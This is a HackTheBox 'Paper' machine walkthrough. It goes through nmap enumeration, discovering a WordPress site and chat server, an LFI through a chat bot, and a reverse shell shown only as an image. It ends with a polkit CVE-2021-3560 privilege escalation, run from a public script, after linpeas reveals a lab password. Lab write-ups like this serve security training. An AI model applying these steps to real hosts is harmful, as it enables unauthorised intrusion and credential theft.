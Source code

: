 ```yaml
---
title: HTB | Paper
author: Zeropio
date: 2022-05-21
categories: [Pentesting, HackTheBox]
tags: [htb, linux, easy, machines]
permalink: /pentesting/htb/machines/paper
---
```


![HTB Img](/assets/img/hackthebox/card/Paper.png)

# Enumeration
## nmap
```console
❯ nmap -sVC 10.10.11.143 -oN nmap
	Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-21 18:04 CEST
	Nmap scan report for 10.10.11.143
	Host is up (0.28s latency).
	Not shown: 997 closed tcp ports (conn-refused)
	PORT    STATE SERVICE  VERSION
	22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
	| ssh-hostkey: 
	|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
	|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
	|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
	80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
	|_http-title: HTTP Server Test Page powered by CentOS
	|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
	| http-methods: 
	|_  Potentially risky methods: TRACE
	|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
	443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
	|_http-title: HTTP Server Test Page powered by CentOS
	| http-methods: 
	|_  Potentially risky methods: TRACE
	|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
	| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
	| Subject Alternative Name: DNS:localhost.localdomain
	| Not valid before: 2021-07-03T08:52:34
	|_Not valid after:  2022-07-08T10:32:34
	|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
	|_ssl-date: TLS randomness does not represent time
	| tls-alpn: 
	|_  http/1.1
```

## Web
We can see a default webpage for nginx.
With curl we can get the header and see that there is a page called **office.paper**.
```console
❯ curl -i http://10.10.11.143/
	HTTP/1.1 403 Forbidden
	Date: Sat, 21 May 2022 16:07:56 GMT
	Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
	X-Backend-Server: office.paper
	Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
	ETag: "30c0b-5c5c7fdeec240"
	Accept-Ranges: bytes
	Content-Length: 199691
	Content-Type: text/html; charset=UTF-8
```

We need to add this to `/etc/hosts`{: .filepath}:
```
10.10.11.143    office.paper
```
Now we can see the page.
With Wappalyzer we can see it is a Wordpress, so we can try a **wpscan**, we get that there is a vulnerable Wordpress version.

If we go to **http://office.paper/?static=1** we can see a subdomain, **chat**.
We add it to the `/etc/hosts`{: .filepath}. We get a login, but with the url **http://chat.office.paper/register/8qozr226AhkCHZdyY** we can register.

&nbsp;
---


# Explotation
Inside the chat we can see a bot in the chat, if we talk to him in dm we can perform an LFI to see some files (as /etc/passwd).
We can see there are a folder ../hubot, where there are some scripts. The run.js script allow us to run any script.

![Image](/assets/img/hackthebox/labs/paper/21-19-19-51.png)

We can start a reverse shell with:

![Image](/assets/img/hackthebox/labs/paper/21-22-39-24.png)

&nbsp;
---

# Privilage Escalation
We see that in our home we have the `linpeas.sh`{: .filepath} file, so we can executed it:
```console
chmod +x linpeas.sh
./linpeas.sh
```

We found some credentials:
```
ROCKETCHAT_PASSWORD=Queenofblad3s!23
LOGNAME=dwight
```
Now we can connect with ssh.

We will use the [CVE-2021-3560](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)
```console
[dwight@paper ~]# ./poc.sh -u=zeropio -p=1234
[dwight@paper ~]# su - zeropio
	Password: 
[zeropio@paper ~]# sudo bash
	[sudo] password for zeropio:
[root@paper ~]#
```
